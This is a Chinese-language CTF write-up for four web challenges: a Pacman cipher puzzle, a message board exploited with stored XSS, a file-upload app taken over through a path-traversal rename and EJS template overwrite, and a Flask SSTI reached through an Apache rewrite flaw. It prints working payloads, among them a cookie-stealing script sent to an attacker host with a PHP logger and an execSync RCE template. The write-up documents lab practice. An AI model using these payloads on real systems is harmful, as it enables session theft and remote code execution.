# **Level 24 Pacman**

## #考眼力的签到题



一个吃豆豆的小游戏，要吃够一万分才能拿到flag，这类题都是可以去找条件然后进行绕过的，先看一下源代码



终于在源码里面看到了一句base64编码，加密后是



栅栏密码



但是这个不是密码

然后在又发现一个 haeu4epca_4trgm{_r_amnmse}



这个就是对的了

# Level 69 MysteryMessageBoard

## #不出网的xss

登录界面弱口令shallot/888888登录进来



是一个留言板，试一下xss

```
<script>alert(1)</script>
```

发现有弹窗显示1，说明这里可能存在xss漏洞

```
<script>document.location.href="http://[ip]/xss.php?cookie="+document.cookie</script>
```

```php
<?php
	$cookie = $_GET['cookie'];
	$time = date('Y-m-d h:i:s', time());
	$log = fopen("cookie.txt", "a");
	fwrite($log,$time.':    '. $cookie . "\n");
	fclose($log);
?>
```

试一下能不能拿到admin的cookie，但是拿到的只有自己的cookie，应该是需要触发admin去访问这个留言，后面扫目录看到有admin路由

```bash
[12:55:24] Scanning:
[12:55:25] 301 -    57B - /%2e%2e//google.com  ->  /%252E%252E/google.com
[12:55:26] 301 -    46B - /../../../../../../etc/passwd  ->  /etc/passwd
[12:55:33] 200 -   167B - /admin
[12:55:41] 301 -    59B - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp
[12:55:41] 301 -    54B - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp
[12:55:41] 301 -    65B - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp
[12:55:43] 301 -    87B - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[12:55:46] 301 -    74B - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf
[12:55:46] 301 -    77B - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf
[12:55:47] 301 -    62B - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf
[12:55:48] 302 -    29B - /g  ->  /login
[12:55:49] 301 -    72B - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf
[12:55:49] 302 -    29B - /i  ->  /login
[12:55:49] 302 -    29B - /in  ->  /login
[12:55:50] 302 -    29B - /l  ->  /login
[12:55:51] 302 -    29B - /log  ->  /login
[12:55:51] 200 -    1KB - /login
[12:55:54] 302 -    29B - /n  ->  /login
[12:55:54] 302 -    29B - /o  ->  /login
```

应该是访问admin路由后才会触发admin访问留言



但是用上面的打法然后访问admin之后并没有收到admin的cookie，后面才知道是admin不出网，所以我们让admin去访问本地的8888端口然后把cookie反射到留言板上就可以了

```js
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://127.0.0.1:8888/", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("comment="%2bdocument.cookie);
</script>
```

传入后访问admin路由触发admin访问留言，然后刷新页面就可以拿到admin的cookie了



后面访问flag路由然后伪造admin身份就可以拿到flag了

赛后在复现平台发现有源码

```go
package main

import (
	"context"
	"fmt"
	"github.com/chromedp/chromedp"
	"github.com/gin-gonic/gin"
	"github.com/gorilla/sessions"
	"log"
	"net/http"
	"sync"
	"time"
)

var (
	store = sessions.NewCookieStore([]byte("fake_key"))
	users = map[string]string{
		"shallot": "fake_password",
		"admin":   "fake_password"}
	comments []string
	flag     = "FLAG{this_is_a_fake_flag}"
	lock     sync.Mutex
)

func loginHandler(c *gin.Context) {
	username := c.PostForm("username")
	password := c.PostForm("password")
	if storedPassword, ok := users[username]; ok && storedPassword == password {
		session, _ := store.Get(c.Request, "session")
		session.Values["username"] = username
		session.Options = &sessions.Options{
			Path:     "/",
			MaxAge:   3600,
			HttpOnly: false,
			Secure:   false,
		}
		session.Save(c.Request, c.Writer)
		c.String(http.StatusOK, "success")
		return
	}
	log.Printf("Login failed for user: %s\n", username)
	c.String(http.StatusUnauthorized, "error")
}
func logoutHandler(c *gin.Context) {
	session, _ := store.Get(c.Request, "session")
	delete(session.Values, "username")
	session.Save(c.Request, c.Writer)
	c.Redirect(http.StatusFound, "/login")
}
func indexHandler(c *gin.Context) {
	session, _ := store.Get(c.Request, "session")
	username, ok := session.Values["username"].(string)
	if !ok {
		log.Println("User not logged in, redirecting to login")
		c.Redirect(http.StatusFound, "/login")
		return
	}
	if c.Request.Method == http.MethodPost {
		comment := c.PostForm("comment")
		log.Printf("New comment submitted: %s\n", comment)
		comments = append(comments, comment)
	}
	htmlContent := fmt.Sprintf(`<html>
		<body>
			<h1>留言板</h1>
			<p>欢迎，%s，试着写点有意思的东西吧，admin才不会来看你！自恋的笨蛋！</p>
			<form method="post">
				<textarea name="comment" required></textarea><br>
				<input type="submit" value="提交评论">
			</form>
			<h3>留言:</h3>
			<ul>`, username)
	for _, comment := range comments {
		htmlContent += "<li>" + comment + "</li>"
	}
	htmlContent += `</ul>
			<p><a href="/logout">退出</a></p>
		</body>
	</html>`
	c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
}
func adminHandler(c *gin.Context) {
	htmlContent := `<html><body>
		<p>好吧好吧你都这么求我了~admin只好勉为其难的来看看你写了什么~才不是人家想看呢！</p>
		</body></html>`
	c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
	//无头浏览器模拟登录admin，并以admin身份访问/路由
	go func() {
		lock.Lock()
		defer lock.Unlock()
		ctx, cancel := chromedp.NewContext(context.Background())
		defer cancel()
		ctx, _ = context.WithTimeout(ctx, 20*time.Second)
		if err := chromedp.Run(ctx, myTasks()); err != nil {
			log.Println("Chromedp error:", err)
			return
		}
	}()
}

// 无头浏览器操作
func myTasks() chromedp.Tasks {
	return chromedp.Tasks{
		chromedp.Navigate("/login"),
		chromedp.WaitVisible(`input[name="username"]`),
		chromedp.SendKeys(`input[name="username"]`, "admin"),
		chromedp.SendKeys(`input[name="password"]`, "fake_password"),
		chromedp.Click(`input[type="submit"]`),
		chromedp.Navigate("/"),
		chromedp.Sleep(5 * time.Second),
	}
}

func flagHandler(c *gin.Context) {
	log.Println("Handling flag request")
	session, err := store.Get(c.Request, "session")
	if err != nil {
		c.String(http.StatusInternalServerError, "无法获取会话")
		return
	}
	username, ok := session.Values["username"].(string)
	if !ok || username != "admin" {
		c.String(http.StatusForbidden, "只有admin才可以访问哦")
		return
	}
	log.Println("Admin accessed the flag")
	c.String(http.StatusOK, flag)
}
func main() {
	r := gin.Default()
	r.GET("/login", loginHandler)
	r.POST("/login", loginHandler)
	r.GET("/logout", logoutHandler)
	r.GET("/", indexHandler)
	r.GET("/admin", adminHandler)
	r.GET("/flag", flagHandler)
	log.Println("Server started at :8888")
	log.Fatal(r.Run(":8888"))
}

```

关注一下里面的几段关键代码

```go
		session.Options = &sessions.Options{
			Path:     "/",
			MaxAge:   3600,
			HttpOnly: false,
			Secure:   false,
		}
```

这里配置了session的设置，但是HttpOnly设置为了false，意味着这里并没有禁止 JavaScript 访问 Cookie，也就是说我们可以通过document.cookie进行读取

```go
	for _, comment := range comments {
		htmlContent += "<li>" + comment + "</li>"
	}
```

对用户的输入没有过滤和转义而是直接插入到前端页面，所以会存在xss

```go
func adminHandler(c *gin.Context) {
    htmlContent := `<html><body>
       <p>好吧好吧你都这么求我了~admin只好勉为其难的来看看你写了什么~才不是人家想看呢！</p>
       </body></html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
    //无头浏览器模拟登录admin，并以admin身份访问/路由
    go func() {
       lock.Lock()
       defer lock.Unlock()
       ctx, cancel := chromedp.NewContext(context.Background())
       defer cancel()
       ctx, _ = context.WithTimeout(ctx, 20*time.Second)
       if err := chromedp.Run(ctx, myTasks()); err != nil {
          log.Println("Chromedp error:", err)
          return
       }
    }()
}

// 无头浏览器操作
func myTasks() chromedp.Tasks {
    return chromedp.Tasks{
       chromedp.Navigate("/login"),
       chromedp.WaitVisible(`input[name="username"]`),
       chromedp.SendKeys(`input[name="username"]`, "admin"),
       chromedp.SendKeys(`input[name="password"]`, "fake_password"),
       chromedp.Click(`input[type="submit"]`),
       chromedp.Navigate("/"),
       chromedp.Sleep(5 * time.Second),
    }
}
```

`/admin`路由会触发模拟admin登录并访问`/`路由

```go
func flagHandler(c *gin.Context) {
	log.Println("Handling flag request")
	session, err := store.Get(c.Request, "session")
	if err != nil {
		c.String(http.StatusInternalServerError, "无法获取会话")
		return
	}
	username, ok := session.Values["username"].(string)
	if !ok || username != "admin" {
		c.String(http.StatusForbidden, "只有admin才可以访问哦")
		return
	}
	log.Println("Admin accessed the flag")
	c.String(http.StatusOK, flag)
}
```

限制直接用admin的cookie才能访问

# ****Level 47 BandBomb****

## #文件上传+ejs模板渲染

分开看一下代码

```js
//app.js
const express = require('express');
const multer = require('multer');
const fs = require('fs');
const path = require('path');

const app = express();

app.set('view engine', 'ejs');

app.use('/static', express.static(path.join(__dirname, 'public')));
app.use(express.json());
```

Express框架的web应用，设置模板引擎是ejs，配置静态文件目录public映射到路径`/static`，并使用json用于解析请求体的JSON数据

```javascript
const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    const uploadDir = 'uploads';
    if (!fs.existsSync(uploadDir)) {
      fs.mkdirSync(uploadDir);
    }
    cb(null, uploadDir);
  },
  filename: (req, file, cb) => {
    cb(null, file.originalname);
  }
});
```

配置了文件存储路径位置uploads，并且这里文件保存是采用的原始上传文件名进行命名保存的

```javascript
const upload = multer({ 
  storage: storage,
  fileFilter: (_, file, cb) => {
    try {
      if (!file.originalname) {
        return cb(new Error('无效的文件名'), false);
      }
      cb(null, true);
    } catch (err) {
      cb(new Error('文件处理错误'), false);
    }
  }
});
```

创建一个multer实例，这里的话会检查文件名

```javascript
app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');
  
  if (!fs.existsSync(uploadsDir)) {
    fs.mkdirSync(uploadsDir);
  }

  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      return res.status(500).render('mortis', { files: [] });
    }
    res.render('mortis', { files: files });
  });
});
```

配置根路由的Get请求，检查文件上传目录是否存在，尝试读取里面的文件并渲染到前端页面

```javascript
app.post('/upload', (req, res) => {
  upload.single('file')(req, res, (err) => {
    if (err) {
      return res.status(400).json({ error: err.message });
    }
    if (!req.file) {
      return res.status(400).json({ error: '没有选择文件' });
    }
    res.json({ 
      message: '文件上传成功',
      filename: req.file.filename 
    });
  });
});
```

一个接收post请求的文件上传的路由

```javascript
app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});
```

一个接收post请求的重命名文件名的路由

这里的话可以看到重命名路径是没有任何检测的，也就是说可以进行路径穿越的

```javascript
res.render('mortis', { files: files });
```

用mortis.ejs模板文件进行渲染，结合路径穿越，我们可以上传文件覆盖掉ejs模板文件

```ejs
<% global.process.mainModule.require('child_process').execSync('whoami > ./public/poc.txt').toString() %>
```

因为配置了静态文件路径，所以可以往里面写文件

上传ejs文件后进行重命名

```http
/rename
POST:{"oldName":"poc.ejs","newName":"../views/mortis.ejs"}
```

然后访问根路由进行渲染执行ejs文件

最后访问`./static/poc.txt`就行了



# **Level 38475 角落**

## #url重写漏洞+ssti条件竞争

题目提示会有管理员查看留言




传了一个`<script>alert("1")</script>`显示上传成功但是没得弹窗警告，扫目录看到一个有robots.txt，给了一个/app.conf

```xml
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
	Options Indexes
	AllowOverride None
	Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

分析一下这个配置文件，app.py不让访问，我们重点看一下URL重写规则

```html
RewriteEngine On//开启 Apache 的 URL 重写模块
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/" //如果UA头中包含 L1nk/ 字符串，则后续的重写规则将会被应用
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"访问`/admin/???`目录的时候Apache 会尝试在文件系统中查找 `/???.html` 文件
```

阿帕奇的URL重写规则



试着去拿一下app.py但是没拿到，应该是路径问题

后面找文档看到有版本CVE



Apache 的文档根目录（`DocumentRoot`）通常是 `/usr/local/apache` 或类似路径。直接读app.py



只需要在最后加一个%3f即可，这会把app.py后面的东西变成查询语句。

```py
//app.py
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
	filename = pwd + "/tmp/message.txt"
	if os.path.exists(filename):
		f = open(filename, 'r')
		message = f.read()
		f.close()
		return message
	else:
		return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
	status = request.args.get('status')
	if status is None:
		status = ''
	return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
	filename = pwd + "/tmp/message.txt"
	message = request.form['message']

	f = open(filename, 'w')
	f.write(message) 
	f.close()

	return redirect('index?status=Send successfully!!')
	
@app.route('/read', methods=['GET'])
def read_message():
	if "{" not in readmsg():
		show = show_msg.replace("{{message}}", readmsg())
		return render_template_string(show)
	return 'waf!!'
	

if __name__ == '__main__':
	app.run(host = '0.0.0.0', port = 5000)
```

路由/read是用来渲染的，是ssti，先传一个7*7然后访问/read路由



能正常访问处理，因为这里会检查是否包含`{`，之前没学过过滤了这个怎么做，后面看的师傅的wp知道这里是需要条件竞争的，因为我们需要写文件读文件，那么这里可以可以用条件竞争来做。

需要一个正常/send包，一个写文件的/send包，一个读文件的/read包

我们用lipsum获取os模块，三个包设置如下



